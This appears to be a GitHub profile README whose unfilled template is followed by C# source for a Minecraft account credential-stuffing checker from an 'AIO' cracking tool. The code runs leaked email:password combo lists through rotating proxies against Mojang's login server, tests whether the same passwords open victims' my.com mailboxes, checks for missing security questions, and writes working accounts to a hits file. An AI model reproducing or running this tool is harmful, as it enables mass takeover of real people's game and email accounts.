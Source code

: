 - 👋 Hi, I’m @geothegemini
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
geothegemini/geothegemini is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
namespace Minecraft
{
    using Leaf.xNet;
    using MultiX.New;
    using MultiXAIO;
    using Newtonsoft.Json;
    using Newtonsoft.Json.Linq;
    using System;
    using System.Collections.Generic;
    using System.Linq;
    using System.Net.Security;
    using System.Runtime.CompilerServices;
    using System.Security.Cryptography.X509Certificates;
    using System.Text;

    internal class Check
    {
        private static Uri SFACheckUri = new Uri("https://api.mojang.com/user/security/challenges");
        public static int threads = 0;
        public static string proxyprotocol = "";
        public static List<string> combos;
        public static List<string> proxies1;
        public static int proxytotal = 0;
        public static int combototal = 0;
        public static int free = 0;
        public static int comboindex = 0;
        public static int cpm = 0;
        public static int cpm_aux = 0;
        public static int check = 0;
        public static int error = 0;
        public static int hit = 0;
        public static int bad = 0;
        public static int h;
        public static int m;
        public static int s;

        public static string Base64Encode(string plainText) => 
            Convert.ToBase64String(Encoding.UTF8.GetBytes(plainText));

        public static bool CheckAccount(string[] s, string proxy)
        {
            int num = 0;
            while (true)
            {
                while (true)
                {
                    if (num < (SUPP.globalRetries + 1))
                    {
                        break;
                    }
                    return false;
                }
                while (true)
                {
                    try
                    {
                        using (HttpRequest request = new HttpRequest())
                        {
                            proxy = SUPP.proxies.ElementAt<string>(new Random().Next(SUPP.proxiesCount));
                            if (SUPP.proxyProtocol == "HTTP")
                            {
                                request.Proxy = HttpProxyClient.Parse(proxy);
                            }
                            if (SUPP.proxyProtocol == "SOCKS4")
                            {
                                request.Proxy = Socks4ProxyClient.Parse(proxy);
                            }
                            if (SUPP.proxyProtocol == "SOCKS5")
                            {
                                request.Proxy = Socks5ProxyClient.Parse(proxy);
                            }
                            request.UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0";
                            request.IgnoreProtocolErrors = true;
                            request.AllowAutoRedirect = false;
                            request.SslCertificateValidatorCallback += (obj, cert, ssl, error) => (cert as X509Certificate2).Verify();
                            string[] textArray1 = new string[] { "{\"agent\": {\"name\": \"Minecraft\",\"version\": 1},\"username\": \"", s[0], "\",\"password\": \"", s[1], "\",\"requestUser\": \"true\"}" };
                            string str = request.Post("https://authserver.mojang.com/authenticate", string.Concat(textArray1), "application/json").ToString();
                            if (!str.Contains("selectedProfile"))
                            {
                                if (str.Contains("{\"error\":\"ForbiddenOperationException\",\"errorMessage\":\"Invalid credentials. Invalid username or password.\"}") || str.Contains("{\"error\":\"JsonParseException\",\"errorMessage\":\"Unexpected character "))
                                {
                                    break;
                                }
                            }
                            else
                            {
                                JObject obj2 = (JObject) JsonConvert.DeserializeObject(str);
                                string str2 = (string) obj2["selectedProfile"]["name"];
                                string token = (string) obj2["accessToken"];
                                string str4 = "NFA";
                                if (MailAccessCheck(s[0], s[1]) == "Working")
                                {
                                    str4 = "MFA";
                                }
                                else if (SFACheck(token))
                                {
                                    str4 = "SFA";
                                }
                                SUPP.hits++;
                                string[] textArray2 = new string[] { s[0], ":", s[1], " | ", str4, " - Username: ", str2 };
                                Export.AsResult("/Minecraft_hits", string.Concat(textArray2));
                                return false;
                            }
                        }
                    }
                    catch (Exception)
                    {
                        SUPP.errors++;
                    }
                }
                num++;
            }
        }

        private static string MailAccessCheck(string email, string password)
        {
            while (true)
            {
                try
                {
                    using (HttpRequest request = new HttpRequest())
                    {
                        SetBasicRequestSettingsAndProxies(request);
                        request.UserAgent = "MyCom/12436 CFNetwork/758.2.8 Darwin/15.0.0";
                        string[] textArray1 = new string[] { "https://aj-https.my.com/cgi-bin/auth?timezone=GMT%2B2&reqmode=fg&ajax_call=1&udid=16cbef29939532331560e4eafea6b95790a743e9&device_type=Tablet&mp=iOS\x00a4t=MyCom&mmp=mail&os=iOS&md5_signature=6ae1accb78a8b268728443cba650708e&os_version=9.2&model=iPad%202%3B%28WiFi%29&simple=1&Login=", email, "&ver=4.2.0.12436&DeviceID=D3E34155-21B4-49C6-ABCD-FD48BB02560D&country=GB&language=fr_FR&LoginType=Direct&Lang=en_FR&Password=", password, "&device_vendor=Apple&mob_json=1&DeviceInfo=%7B%22Timezone%22%3A%22GMT%2B2%22%2C%22OS%22%3A%22iOS%209.2%22%2C?%22AppVersion%22%3A%224.2.0.12436%22%2C%22DeviceName%22%3A%22iPad%22%2C%22Device?%22%3A%22Apple%20iPad%202%3B%28WiFi%29%22%7D&device_name=iPad&" };
                        if (request.Get(new Uri(string.Concat(textArray1)), null).ToString().Contains("Ok=1"))
                        {
                            return "Working";
                        }
                    }
                    break;
                }
                catch
                {
                    SUPP.errors++;
                }
            }
            return "";
        }

        private static void SetBasicRequestSettingsAndProxies(HttpRequest req)
        {
            req.IgnoreProtocolErrors = true;
            req.ConnectTimeout = 0x2710;
            req.KeepAliveTimeout = 0x2710;
            req.ReadWriteTimeout = 0x2710;
            char[] separator = new char[] { ':' };
            string[] strArray = SUPP.proxies.ElementAt<string>(new Random().Next(SUPP.proxiesCount)).Split(separator);
            ProxyClient client = (SUPP.proxyProtocol == "SOCKS5") ? ((ProxyClient) new Socks5ProxyClient(strArray[0], int.Parse(strArray[1]))) : ((SUPP.proxyProtocol == "SOCKS4") ? ((ProxyClient) new Socks4ProxyClient(strArray[0], int.Parse(strArray[1]))) : ((ProxyClient) new HttpProxyClient(strArray[0], int.Parse(strArray[1]))));
            if (strArray.Length == 4)
            {
                client.Username = strArray[2];
                client.Password = strArray[3];
            }
            req.Proxy = client;
        }

        public static bool SFACheck(string token)
        {
            while (true)
            {
                try
                {
                    using (HttpRequest request = new HttpRequest())
                    {
                        SetBasicRequestSettingsAndProxies(request);
                        request.AddHeader("Authorization", "Bearer " + token);
                        if (request.Get(SFACheckUri, null).ToString() == "[]")
                        {
                            return true;
                        }
                    }
                    break;
                }
                catch
                {
                    SUPP.errors++;
                }
            }
            return false;
        }

        [Serializable, CompilerGenerated]
        private sealed class <>c
        {
            public static readonly Check.<>c <>9 = new Check.<>c();
            public static RemoteCertificateValidationCallback <>9__0_0;

            internal bool <CheckAccount>b__0_0(object obj, X509Certificate cert, X509Chain ssl, SslPolicyErrors error) => 
                (cert as X509Certificate2).Verify();
        }
    }
}

